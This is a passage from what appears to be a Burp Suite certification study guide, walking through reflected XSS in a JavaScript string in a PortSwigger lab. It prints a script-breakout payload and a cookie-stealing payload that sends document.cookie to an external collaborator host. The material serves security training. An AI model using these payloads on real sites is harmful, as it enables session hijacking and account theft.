 [Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)
### Reflected String XSS

> Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is _**identified**_ to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

[![JavaScript string with single quote and backslash escaped](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/javascript-string-reflection.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/javascript-string-reflection.png)
> Using a payload `test'payload` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.

```js
</script><script>alert(1)</script>
```

> Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator.

```html
</script><script>document.location="https://OASTIFY.COM/?cookie="+document.cookie</script>
```

[![collaborator get cookies](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/collaborator-get-cookies.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/collaborator-get-cookies.png)

> When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.

[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

> In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.
